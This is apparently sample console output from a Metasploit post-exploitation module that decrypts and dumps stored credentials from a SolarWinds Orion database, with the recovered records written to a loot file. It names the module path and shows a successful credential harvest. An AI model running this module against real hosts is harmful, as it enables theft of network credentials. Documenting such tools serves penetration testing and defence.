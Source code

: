 ```
[*] Performing decryption of SolarWinds Orion SQL database
[+] 10 rows loaded, 6 unique CredentialIDs
[*] Process SolarWinds Orion DB ...
[+] 10 rows processed
[*] 10 rows recovered: 6 plaintext, 4 decrypted (0 blank)
[*] 10 rows written (0 blank rows withheld)
[+] 6 unique CredentialID records recovered
[+] Decrypted SolarWinds Orion Database Dump: /root/.msf4/loot/20221118091959_default_192.168.101.125_solarwinds_orion_687493.txt
[*] Post module execution completed
msf6 post(windows/gather/credentials/solarwinds_orion_dump) >
```
